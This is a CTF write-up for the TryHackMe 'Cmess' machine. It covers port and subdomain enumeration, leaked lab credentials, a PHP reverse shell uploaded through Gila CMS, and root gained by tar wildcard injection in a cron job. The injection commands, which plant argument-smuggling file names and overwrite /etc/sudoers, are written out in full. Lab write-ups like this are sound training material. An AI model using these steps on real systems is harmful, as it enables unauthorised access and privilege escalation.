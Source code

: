 ```yaml
---
date: 2020-05-20 07:12:02
layout: post
title: "Cmess"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/cmess/cmess.png
optimized_image:
category: tryhackme
tags: 
author: cirius
paginate: false
---
```


Starting with what is told to do by machine author.
Making an entry for the ip in /etc/hosts.

Added ***10.10.10.185.18  cmess.thm*** to the /etc/hosts file.

Scanning for open ports gives,
```bash
nmap -T4 -p- -A 10.10.185.18
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   376.32 ms 10.8.0.1
2   376.38 ms cmess.thm (10.10.160.221)
```
The website hosted at port 80 contains robots.txt
![placeholder](/writeup/assets/img/cmess/robots.png "robot")

Accessing all the directories listed in robots.txt gives FORBIDDEN 403 error.
Directory and file file busting through ffuf gives
 ![placeholder](/writeup/assets/img/cmess/directory.png "directory")
 admin directory gives a login page.
 ![placeholder](/writeup/assets/img/cmess/login.png "login")
 The website is working with GilaCMS as written on the homepage.
 Nothing interesting found yet. Searching for exploits also is not much helful as version of gilacms is still unknown.
 
 Then I thought to go for subdomains.
 ```bash
 ffuf -w sublists -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -fw 522
 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 522
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31]

## Here fw specifies the amount of words to filter. This can be set as first run the scan without fw and see the response which are getting 200 and use note the number of words in their response.That number which is common in most use it as word filter(fw) in the next scan
```
So I got a subdomain dev.
Make an entry of this subdomain in the /etc/hosts file.
It will look like
![placeholder](/writeup/assets/img/cmess/hosts.png "hosts")

Now accessing the subdomain *dev.cmess.thm* gives
![placeholder](/writeup/assets/img/cmess/mail.png "mail")

Got an email and a password.

**andre@cmess.thm:KPFTN_f2yxe%**
Used it to login at the login page.
 ![placeholder](/writeup/assets/img/cmess/gila.png "gilacms")
 
Clicked on Content and then file manager and reached the directory where all the files related to website are stored.
Uploaded a php reverse shell with the upload option inside assets directory.

Accessed the php file at *http://cmess.thm/assets/phpshell.php* and got the reverse shell.
![placeholder](/writeup/assets/img/cmess/shell.png "shell")

Found .password.bak file inside /opt/. Found a password inside the file.
```bash
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
Used this password to login with ssh as andre user.
![placeholder](/writeup/assets/img/cmess/ssh.png "ssh")

Got the user.txt.

Uploaded Linpeas.sh using wget and ran it.

This showed a 99% P.E. Vector at a cron job
![placeholder](/writeup/assets/img/cmess/linpeas.png "cron")

This cronjob is using tar with wildcard(*).So I used wildcard injection.
Executed these commands.
```bash
echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1

##tar command uses **checkpoint-action=ACTION** argument to execute the ACTION on each checkpoint

##--checkpoint[=NUMBER]
  ##  display progress messages every NUMBERth record (default 10)
```
You can learn more about tar wildcard injection <a href="https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e">here></a>.

The above commands create three files
* A file named privesc.sh; which contains the commands I want to run
* A file named "--checkpoint-action=exec=sh privesc.sh";this will trigger the tar command to execute privesc.sh when a checkpoint is reached.
* A file named "--checkpoint=1"; this will make checkpoint-action to trigger at every 1th record read rather than default 10th record read.

Now when the cron job executes it creates an entry in sudoers file to grant andre user permission to run sudo for all commands without asking for password.

Changed the user to root.

```bash
sudo su
```

Got the root.txt.





 

